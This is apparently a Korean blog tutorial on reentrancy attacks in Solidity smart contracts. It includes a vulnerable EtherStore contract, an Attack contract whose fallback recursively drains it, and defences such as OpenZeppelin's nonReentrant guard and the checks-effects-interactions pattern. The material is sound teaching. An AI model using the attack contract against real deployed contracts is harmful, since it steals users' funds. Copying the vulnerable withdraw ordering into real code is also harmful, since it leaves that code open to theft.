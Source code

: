 ```yaml
---
emoji: 🧢
title: [취약점 시리즈 3] Reentrancy Attack (재진입 공격)?
date: '2021-12-20 18:38:00'
author: 한성원
tags: EVM Reentrancy ReentrancyAttack
categories: 취약점분석
---
```



# 👋 Reentrancy Attack (재진입 공격)


## 들어가기전
### Fallback 함수?
Fallback 함수는 contract에서 함수를 실행시킬때 함수가 존재하지 않는다면 실행되는 function이다. 
0.6이전 버전에서는 fallback이 ether는 것과 존재하지 않는 함수의 대비책으로 사용되었지만 0.6 이후 버전부터 fallback은 fallback과 receive로 나누어졌다. 0.6부터는 fallback을 사용하지 않고 receive를 통해 이더를 받을 수 있다.
- - -
## Reentrancy Attack(재진입 공격)이란?
Reentrancy Attack은 contract A가 하나의 user로써 contract B 에게 transaction을 보낸다. 이때 contract A가 요청에 대한 제어권을 가지게된다. 그렇게 되면 contract A가 보낸 첫번째 요청이 끝나기 전에 다른 함수를 계속해서 호출 할 수 있게된다. 이는 재진입을 ether를 빼올 수 있게 된다.
- - -

## Example Code
예시를 하나 보도록 하자! 
첫번째 contract A는 ether를 보관하는 곳
두번째 contract B는 A를 공격하는 contract이다.

그대로 remix를 사용해 테스트해보면 이해가 빠를 것이다!
```solidity

contract EtherStore {
    mapping(address => uint) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}("");
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0;
    }
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
    
}
```

```solidity 
contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```
-  <span style="color:grey">출처: https://solidity-by-example.org/hacks/re-entrancy/</span>  

__EtherStore contract__ 를 보면 deposit과 withdraw 함수가 존재한다. 
- deposit 함수를 원하는 만큼의 ether를 보관할 수 있게 해주는 함수이다.
- withdraw 함수는 자신이 보관한 ether를 가져올 수 있는 함수이다. 

__Attack contract__ 에는 attack과 fallback함수가 존재한다.
- attack 함수는 ether 하나를 deposit하고 이후 바로 withdraw 한다
- fallback 함수에는 ether가 1이상 보관되어 있다면 withdraw함수를 다시 부른다.

함수가 호출되는 순서는 다음과 같다
```
- Attack.attack
- EtherStore.deposit
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack.fallback (receives 1 Ether)
- EtherStore.withdraw
- Attack fallback (receives 1 Ether)
- ...(이후 반복)
```

1. 공격자가 attack 함수를 통해 EtherStore에 1 ether를 deposit한다
2. 이후 EtherStore에 1 ether를 찾겠다고 withdraw 함수를 호출한다.
3. withdraw 함수가 호출되면 attack 함수의 fallback function이 호출된다.(이더를 가져오기 때문에!)
4. 이후 fallback function 안에 있는 withdraw함수를 재호출 하게된다.
5. 이후 3-4 과정이 반복되며 재진입 공격이 성공한다.

이처럼 재진입 공격을 통해 부당한 이득을 취할 수 있게된다.

- - -
## How to prevent?
그렇다면 reentrency attack은 어떻게 예방 할 수 있을까?

Reentrency attack은 예방하는 방법은 총 2가지로 나눌 수 있다. 
1. openzeppline의 ReentrancyGuard contract의 noReentrant modifier 사용하기
    -  openzeppline Library는 secure smart contract 개발을 위한 Library이다.
    - noReentrant modifier의 코드는 이러하다. 
    ```solidity
        modifier nonReentrant() {
        // On the first call to nonReentrant, _notEntered will be true
        require(_status != _ENTERED, "ReentrancyGuard: reentrant call");

        // Any calls to nonReentrant after this point will fail
        _status = _ENTERED;

        _;

        // By storing the original value once again, a refund is triggered (see
        // https://eips.ethereum.org/EIPS/eip-2200)
        _status = _NOT_ENTERED;
    }
    ```
    함수 뒤에 noReentrant를 붙혀주는 것으로 쉬게 사용 가능하다.

2. Check-Effects-Interaction 패턴
  -  함수 내에서 interaction이 일어나기 전 check와 effect를 다 적용하는 패턴이다. 위 예제의 withdraw 함수 같은 경우 effect 부분이 interaction 부분 다음에 있는 것을 볼 수 있다. 
  - Check-Effects-Interaction 패턴을 적용하게 되면 interaction하기 전에 먼저 balance에 대한 데이터가 바뀜으로 reentrency하게 되어도 require문에 걸리게 된다.
  

  ```solidity
  function withdraw() public {
        uint bal = balances[msg.sender];
        require(bal > 0);

        (bool sent, ) = msg.sender.call{value: bal}(""); // interaction 부분!!
        require(sent, "Failed to send Ether");

        balances[msg.sender] = 0; // effect!!
    }
  ```
- - -

## 마치며
"블록체인은 해킹 당하지 않는다!" 라는 것은 맞는 말이지만 블록체인 위에서 만들어지는 smart contract는 그렇지 않다. 코드를 조금이라도 잘못 짜게되면 Reentrency attack과 많은 취약점들이 생길 수 있다. 그럼으로 앞으로 취약점들에 대해 공부해 smart contract를 만들때 유의하도록 하자!!

```toc

```